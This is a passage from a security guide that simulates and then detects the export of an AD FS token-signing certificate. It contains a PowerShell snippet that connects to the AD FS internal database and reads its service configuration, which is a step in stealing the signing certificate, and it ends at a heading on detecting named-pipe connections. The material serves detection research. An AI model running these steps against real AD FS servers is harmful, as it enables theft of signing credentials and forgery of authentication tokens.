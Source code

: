 ![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_02_get_database_string_wmi_class.png)

### Connect to the database and run a SQL statement to read configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_03_get_database_configuration.png)

## Detect Named Pipe Connection
